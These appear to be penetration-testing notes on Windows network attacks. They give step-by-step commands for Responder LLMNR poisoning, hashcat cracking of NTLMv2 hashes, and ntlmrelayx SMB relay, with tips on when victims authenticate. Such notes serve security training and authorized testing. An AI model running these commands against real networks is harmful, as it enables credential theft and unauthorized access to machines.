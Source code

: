 ### How to exploit

Step 1: Run Responder

```
sudo responder -I tun0 -rdwv
```

* NOTE: This tool should seriously be the first thing that you run on an engagement
  * Especially during the morning hours when users are authenticating for the first time that day
  * Lunch is also a great time
* You should theoretically receive a hash once an event occurs

Step 2: Wait

Step 3: Obtain hash and proceed to Pass-The-Hash or take offline and crack!

Step 4: Password Cracking

```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

* Run these on your host for fast speeds

Finding Hashcat format:

```
hashcat --help | grep NTLM
```

## SMB Relay

* Instead of cracking hashes gathered by responder, we can relay those hashes to specific machines and potentially gain access

### Requirements

* <mark style="color:yellow;">SMB signing MUST BE DISABLED on the target</mark>
* Relayed user credentials must be admin on machine

### How to Exploit

Step 1: Make sure that <mark style="color:yellow;">SMB and HTTP servers are set to OFF</mark>

Step 2: Run <mark style="color:yellow;">Responder</mark>

```
sudo responder -I tun0 -rdwv
```

* You should see that SMB and HTTP are off

Step 3: Set up your relay -- <mark style="color:yellow;">impacket-ntlmrelayx</mark>

```
impacket-ntlmrelayx -tf targets.txt -smb2support
```

Step 4: Wait for an event to occur
